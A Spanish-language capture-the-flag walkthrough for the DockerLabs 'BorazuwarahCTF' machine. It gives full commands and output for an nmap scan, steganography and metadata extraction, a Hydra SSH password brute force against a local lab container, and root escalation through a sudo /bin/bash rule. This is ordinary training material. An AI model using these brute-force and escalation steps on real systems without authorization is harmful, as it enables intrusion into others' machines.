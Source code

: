 Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "BorazuwarahCTF".
Una vez hecho, descomprimimos el archivo, e inicializamos la maquina con el comando:
```
bash auto_deploy.sh borazuwarahctf.tar
```
Tras desplegarse la maquina, hacemos un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 -n -Pn -vvv 172.17.0.2
```
y vemos que tiene dos puertos abiertos el 22 (SSH) y el 80 (HTTP):
```
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
```
En este caso, empezaremos poniendo en el navegador esta IP y ver si en la pagina, existe alguna informacion "util".
Vemos una pagina con una foto de un huevo Kinder. Si presionamos "CTRL + U", no vemos nada interesante, asi que nos bajaremos la foto para ver si hay algun mensaje oculto en ella con "wget http://172.17.0.2/imagen.jpeg ".
Ahora vamos a probar una tecnica de ocultacion de informacion llamada "Esteganografia".
Para ello, ejecutaremos STEGHIDE sobre la foto descargada:
```
steghide extract -sf imagen.jpeg

Enter passphrase: 
wrote extracted data to "secreto.txt"
```

**NOTA: Para ocultar un archivo llamado por ejemplo "archivo.txt" en una imagen "imagen.jpg" escribiriamos:

	"steghide embed -cf imagen.jpg -ef archivo.txt"

Por su parte, si lo que queremos es extraer el archivo oculto, pondriamos:

	"steghide extract -sf imagen.jpg**

Bueno, y ahora, volviendo a la maquina, si hacemos un "cat" sobre el archivo "secreto.txt", nos muestra:
```
cat secreto.txt

Sigue buscando, aquí no está to solución
aunque te dejo una pista....
sigue buscando en la imagen!!!
```
Gracias a la info obtenida, es el momento de intentar leer los posibles metadatos que haya en la foto con EXIFTOOL a ver si van por ahi los tiros:
```
exiftool imagen.jpeg
```
Obtenemos:
```
ExifTool Version Number         : 12.76
File Name                       : imagen.jpeg
Directory                       : .
File Size                       : 19 kB
File Modification Date/Time     : 2024:05:28 18:10:18+02:00
File Access Date/Time           : 2024:07:08 19:29:37+02:00
File Inode Change Date/Time     : 2024:07:08 19:27:29+02:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
XMP Toolkit                     : Image::ExifTool 12.76
Description                     : ---------- User: borazuwarah ----------
Title                           : ---------- Password:  ----------
Image Width                     : 455
Image Height                    : 455
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 455x455
Megapixels                      : 0.207
```
Por fin hemos obtenido un usuario: "borazuwarah".
Es momento ahora de usar HYDRA para ver si podemos obtener la contraseña de este usuario y entrar por el puerto 22 (SSH).
```
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
Unos segundos despues obtenemos:
```
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: borazuwarah   password: 123456
1 of 1 target successfully completed, 1 valid password found
```
Es hora de intentar acceder mediante el protocolo SSH por lo que escribimos:
```
borazuwarah@172.17.0.2
```
Tras contestar "yes" a la primera pregunta e introducir la contraseña obtenida con HYDRA, vemos que ya estamos dentro. Solo nos quedaria la escalada de privilegios para tener acceso completo. Intentaremos primero con el comando "sudo -l":
```
borazuwarah@ccab7e55cb75:~$ whoami
borazuwarah

borazuwarah@ccab7e55cb75:~$ sudo -l
Matching Defaults entries for borazuwarah on ccab7e55cb75:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User borazuwarah may run the following commands on ccab7e55cb75:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/bash
    
borazuwarah@ccab7e55cb75:~$
```
Tal y como se observa, ejecutando "/bin/bash" deberiamos tener acceso "root", por lo que simplemente escribimos:
```
borazuwarah@ccab7e55cb75:~$ sudo /bin/bash

root@ccab7e55cb75:/home/borazuwarah# whoami
root
root@ccab7e55cb75:/home/borazuwarah#
```
Y listo, al escribir "whoami" se ve que el acceso como "root" ha sido obtenido. Con esto la maquina estaria hecha.



